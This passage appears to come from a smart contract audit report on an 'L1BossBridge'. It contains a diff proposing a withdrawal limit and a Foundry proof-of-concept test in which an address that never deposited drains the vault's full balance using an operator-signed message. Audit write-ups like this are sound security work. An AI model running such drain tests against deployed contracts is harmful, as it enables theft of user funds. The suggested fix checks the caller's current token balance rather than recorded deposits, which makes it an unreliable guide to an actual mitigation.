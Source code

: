 **Recommended Mitigation:**

Add a check (as well as a custom error) that prevents withdrawals more than deposited amount.

```diff
    error L1BossBridge__DepositLimitReached();
    error L1BossBridge__Unauthorized();
    error L1BossBridge__CallFailed();
+   error L1BossBridge__CantWithdrawMoreThanDeposit();
.
.
.
    function withdrawTokensToL1(address to, uint256 amount, uint8 v, bytes32 r, bytes32 s) external {
+       if (amount > token.balanceOf(msg.sender)) {
+           revert L1BossBridge__CantWithdrawMoreThanDeposit();
+       }
        sendToL1(
            v,
            r,
            s,
            abi.encode(
                address(token),
                0, // value
                abi.encodeCall(IERC20.transferFrom, (address(vault), to, amount))
            )
        );
    }
```

### [C-4] Can withdraw total tvl of protocol without ever needing to deposit any penny 😂😂😂

I seriously don't know what to say 😂😂😂.. Anyway, here is a test to prove this finding, and use the mitigation in [C-3] to mitigate this

```solidity
    function testCanWithdrawWithoutDeposit() public {
        address thief = makeAddr("thief");
        uint256 tvl = 5000e18;
        deal(address(token), address(vault), tvl);

        assert(token.balanceOf(address(vault)) == tvl);

        // thief attempts to withdraw without depositing
        vm.startPrank(thief);
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(_getTokenWithdrawalMessage(thief, tvl), operator.key);
        tokenBridge.withdrawTokensToL1(thief, tvl, v, r, s);

        assert(token.balanceOf(thief) == tvl);
        assert(token.balanceOf(address(vault)) == 0);
    }
```
